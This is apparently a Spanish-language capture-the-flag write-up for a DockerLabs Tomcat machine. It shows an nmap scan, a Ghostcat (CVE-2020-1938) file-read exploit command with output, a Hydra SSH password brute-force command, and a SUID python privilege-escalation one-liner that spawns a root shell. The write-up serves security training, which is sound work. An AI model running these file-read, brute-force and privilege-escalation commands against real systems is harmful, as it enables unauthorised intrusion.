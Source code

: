 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/beb5f8b2-02cf-4757-8f58-b95467733ca2)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp(SSH):** OpenSSH 7.9p1 (Debian)
2. **8009/tcp(ajp13):** Apache Jserv
3. **8080/tcp(HTTP):** Apache Tomcat 9.0.30
### Puerto 80
Al identificar que el puerto 8080 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador con el puerto y es una pagina de Apache Tomcat.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/476032a4-99c0-4285-834f-ff5f1f69d16d)

# Fase 2- Exploración

#### Feroxbuster

No encontramos nada interesante.

#### 9.0.30
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/0bc8ae97-f93d-4729-8e91-3467bccab9a6)
Vemos que la versión de Tomcat 9.0.30...


![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4ae0602d-f6a2-4840-9773-82d2e0167308)
Encontramos un exploit en GitHub, que permite leer archivos internos.

# Fase 3- Explotación

#### GitHub = Jesus
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/70ca1c99-cf42-456c-ae4e-3f66fc91529e)
```python
python2 CVE-2020-1938.py 172.17.0.2 -p 8009 -f WEB-INF/web.xml
```
Le indicamos la ip, el puerto y el archivo que queremos leer.

```python
Getting resource at ajp13://172.17.0.2:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat, Jerry ;)
  </description>

</web-app>
```
En el archivo vemos un posible usuario `Jerry`.

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6efa09d4-5571-4bfc-ad9f-98a98b845f17)
Encontramos la contraseña del usuario: `chocolate`. Utilizando hydra.
Comando:
```python
sudo hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

# Fase 4- Privilegios

#### find
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/704a0939-57c9-41b3-aee5-ca48eedd151a)

Despues de hacer el tratamiento de la TTY. Vemos que tenemos permisos de python y perl.

#### Python
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fc97a024-cf9f-4c8a-8e7a-596ed731dc4a)

Vemos que para elevar privilegios tenemos que ejecutar el comando:
```python
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5d95d825-48ac-444d-8f90-4ad09eb11b34)

Y somos root!


